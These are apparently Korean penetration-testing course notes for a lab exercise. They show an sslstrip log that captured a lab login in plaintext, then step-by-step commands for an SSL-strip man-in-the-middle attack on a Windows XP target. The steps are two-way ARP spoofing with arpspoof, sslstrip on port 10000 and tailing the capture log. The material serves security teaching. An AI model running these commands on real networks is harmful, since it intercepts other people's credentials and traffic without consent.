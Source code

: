 root@KH200-kali:~# cat strip.log

```
2020-10-27 10:25:40,938 POST Data (www.pentest.co.kr):
user_id=admin&user_pw=P@ssw0rd
2020-10-27 10:25:49,572 SECURE POST Data (www.pentest.co.kr):
user_id=admin&user_pw=P@ssw0rd
```



### SSL STRIP 실습 (188p)

- 공격자 : Kali
- 공격 대상 : Win XP 또는 CentOS
- 확인
  - 원하는 사이트를 선택하여 계정 정보 확인
  - 공격 순서에 맞게 패킷 분석



###### XP

ncpa.cpl -> dns 168.126.63.1 로 변경



###### 칼리

root@KH200-kali:~# vim /etc/resolv.conf

```
nameserver 168.126.63.1
```



###### XP 

www.facebook.com -> 신뢰할 수 있는 사이트 등록



###### 칼리

탭1

root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.10 172.16.10.254

탭2

root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.254 172.16.10.10

탭3

root@KH200-kali:~# sslstrip -l 10000 -w strip2.log

탭4

root@KH200-kali:~# tail -f strip2.log



### Heart Bleed (190p)
